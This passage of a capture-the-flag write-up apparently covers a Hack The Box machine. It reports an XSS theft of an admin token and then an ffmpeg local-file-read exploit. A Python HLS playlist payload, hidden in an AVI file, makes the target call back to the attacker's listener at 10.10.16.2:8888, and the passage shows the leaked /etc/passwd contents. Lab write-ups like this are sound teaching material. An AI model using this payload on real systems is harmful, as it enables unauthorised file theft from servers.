 And fi-nal-ly exfiltrate an "adminToken"! O-M-G...

Hopefully the box made it obvious this was the way, otherwise I'd have dropped this XSS attempt long ago...

> `c0b9db4c8e4bbb24d59a3aaffa8c8b83`

## Exploiting ffmpeg

The `uploads` endpoint uses `ffmpeg` to convert the uploaded file, which is known to have a LFR vulnerability.

[This report][hackerone-tiktok] describes the exploitation steps, and it is [coded here][pat-ffmpeg].

The code is tweaked to implement the solution from "ach" on Hackerone. It injects a playlist in a minimal avi file, which calls back to the server:

```python
TXT_PLAYLIST = """#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.16.2:8888/header.m3u8|subfile,,start,{start},end,10000,,:{file}
#EXT-X-ENDLIST"""
```

The line breaks have to be accounted for:

```shell
python payloads/generate_avi_lfr.py --start 32 /etc/passwd ~/downloads/test.avi
```

```
Ncat: Connection from 10.10.11.157:33112.
GET /?daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin HTTP/1.1
```

Reading `/etc/passwd` will allow to find an active user and hopefully a SSH key:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
```

[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html